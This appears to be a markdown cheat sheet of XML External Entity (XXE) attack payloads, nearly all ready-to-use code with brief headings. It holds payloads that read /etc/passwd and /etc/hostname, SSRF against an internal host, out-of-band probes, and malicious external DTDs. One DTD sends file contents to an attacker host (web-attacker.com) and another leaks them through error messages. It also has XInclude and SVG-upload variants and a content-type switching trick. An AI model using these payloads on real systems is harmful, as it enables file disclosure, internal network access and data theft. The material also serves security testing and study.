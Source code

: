 ## Exploiting XXE to retrieve files
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Detecting blind XXE using out-of-band (OAST) techniques

### Out-of-band interaction
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### Out-of-band interaction with parameter entity
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

## Exploiting blind XXE to exfiltrate data out-of-band
Create a malicious DTD file with the following content:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
and submit the following XXE payload to the vulnerable application
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

## Exploiting blind XXE to retrieve data via error messages
Create a malicious DTD file with the following content:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
and submit the following XXE payload to the vulnerable application
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

## Xinclude attack
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## XXE attack via file upload
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE via modified content type
Most POST requests use a default content type that is generated by HTML forms, such as ``application/x-www-form-urlencoded``. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.